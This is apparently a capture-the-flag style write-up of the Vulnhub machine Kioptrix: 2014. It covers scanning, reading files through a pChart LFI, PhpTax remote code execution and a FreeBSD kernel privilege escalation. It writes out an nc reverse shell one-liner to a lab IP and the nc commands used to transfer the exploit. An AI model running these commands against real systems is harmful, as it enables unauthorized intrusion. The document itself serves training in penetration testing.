









Kioptrix: 2014 is an intermediate OSCP-like machine hosted on Vulnhub and the fifth one in the Kioptrix series.
Network Scan
To get the IP of the machine I used Nmap’s ping scan to sweep the network.

192.168.56.10 is the IP of my machine, so 192.168.56.130 is the target.
Port Scan and NSE Output

There are three ports in the port scanning results, but only 80 and 8080 are open.

Here we can see that the machine is using FreeBSD and the webserver has mod_ssl 2.2.21, which was vulnerable in another machine in the Kioptrix series (the exploit didn’t work this time).
Port 80 Enumeration
In the root page of the web server we can see that the server is hosting pChart 2.1.3, which is a php webapp to make charts and it is vulnerable to LFI.

Using the example HTTP request on ExploitDB I could read the /etc/passwd file but I didn’t find anything interesting there (except that there is a HIDS installed).
After modifying the HTTP request I read the configuration files for both the SSHD and the Apache services.

 In the Apache configuration file we can see that the port 8080 virtual host only accepts connections that have the “UserAgent” header field set to “Mozilla/4.0”.

In the Apache configuration file we can see that the port 8080 virtual host only accepts connections that have the “UserAgent” header field set to “Mozilla/4.0”.

Port 8080 Enumeration
I used the BurpSuite proxy to rewrite the UserAgent of all my requests to enumerate manually the port 8080 virtual host.  PhpTax is installed in the server and it has a Remote Code Execution (RCE) vulnerability. I couldn’t find the installed version (I didn’t install it in my machine to check the files) but I found that the vulnerability was working after doing some tweaks to the HTTP request.
RCE Exploitation
To exploit the RCE I used a one liner to spawn a reverse shell using nc:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.10 1234 >/tmp/f

PrivEsc to Root
Running uname I found that the machine was using FreeBSD 9.0, which has two registered kernel exploits in ExploitDB.  I used the second one, to get it I runned “searchsploit -m exploits/freebsd/local/26368.c” in my local machine and then I uploaded it using nc, as wget and curl weren’t installed in the target. The commands I used were:
- (Local) nc -lnvp 5678 < exploit.c #Used to setup the server
- (Target) nc 192.168.56.10 5678 > exploit.c #Connect to the server and save the output to exploit.c Finally I compiled it and executed it in the target machine. 
Conclusions
I found this machine pretty easy, maybe because I had solved similar machines in the past. It was really frustating to use the reverse shell as the machine didn’t have Python installed and I couldn’t upgrade it to a more interactive shell. Fortunatelly the privilege escalation part was only executing a kernel exploit and it didn’t require much work on the remote machine.
I’ve been practising buffer overflow and I’ve done some HackTheBox write-ups (I can’t upload them right now because the machines are still active), this is why I didn’t post anything in such a long time.